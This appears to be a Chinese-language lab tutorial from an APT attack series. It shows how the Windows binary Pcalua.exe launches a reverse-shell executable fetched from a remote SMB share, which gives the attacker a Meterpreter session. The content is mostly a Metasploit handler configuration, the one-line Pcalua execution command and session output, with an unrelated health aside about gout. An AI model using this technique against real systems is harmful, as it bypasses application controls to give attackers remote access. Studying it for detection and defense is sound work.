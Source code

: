 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

**Pcalua简介：**

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

**说明：**Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：
`C:\Windows\System32\pcalua.exe`

**攻击机：** 192.168.1.4 Debian
**靶机：** 192.168.1.5 Windows 7

**配置攻击机msf：**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/13ed50e69746598b03e25538d5ce8f0e.jpg)


**靶机执行：**

`Pcalua -m -a \\192.168.1.119\share\rev_x86_53_exe.exe`
![](media/812c8fdac52fcd263438540c02c72205.jpg)

```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53
[*] Sending stage (179779 bytes) to 192.168.1.5
[*] Meterpreter session 23 opened (192.168.1.4:53 ‐> 192.168.1.5:11349)
at 2019‐01‐20 09:25:01 ‐0500
meterpreter > getuid
Server username: John‐PC\John
meterpreter > getpid
Current pid: 11236
meterpreter > 
```
![](media/245a3a34008b549f40544d7438828123.jpg)

>   Micropoor
